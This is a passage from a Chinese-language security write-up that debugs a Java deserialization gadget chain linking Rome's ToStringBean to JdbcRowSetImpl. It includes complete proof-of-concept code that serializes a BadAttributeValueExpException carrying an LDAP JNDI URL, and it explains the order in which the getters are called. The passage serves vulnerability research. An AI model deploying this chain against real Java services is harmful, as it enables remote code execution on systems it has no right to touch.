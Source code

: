 回到 Rome，真的有可能走到我们想要的 getter 而不报错吗？调试一下 Rome 结合 JdbcRowSetImpl 的利用代码

```plain
public static void main(String[] args) throws Exception{
        JdbcRowSetImpl jdbcRowset = new JdbcRowSetImpl();
        String url = "ldap://127.0.0.1:10990";
        jdbcRowset.setDataSourceName(url);

        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,jdbcRowset);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);

        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }
```

在`getDatabaseMetaData()`处下一个断点，得到调用栈[![](assets/1701606907-8fb021f69986e71ddf4f5b570cdab6c1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231017210233-6f9d6318-6ced-1.png)

在 ToStringBean#toString(String):137`Object value = pReadMethod.invoke(_obj,NO_PARAMS);` 处下个断点，观察`pReadMethod`

*   getQueryTimeout
*   getEscapeProcessing
*   getMaxFieldSize
*   **getDatabaseMetaData()**
*   .............

这个顺序又是怎么决定的呢，中间的过程很无聊，我就不详细说明了，感兴趣的师傅可以自己去调试一下，也没有多复杂

总之最终的调用顺序是按照一个`HashMap`转换而成的`Descriptor`（当成 List 就行）来的，而我们都知道 HashMap 是根据**键的哈希值**来确定存储顺序的（相当于随机了）
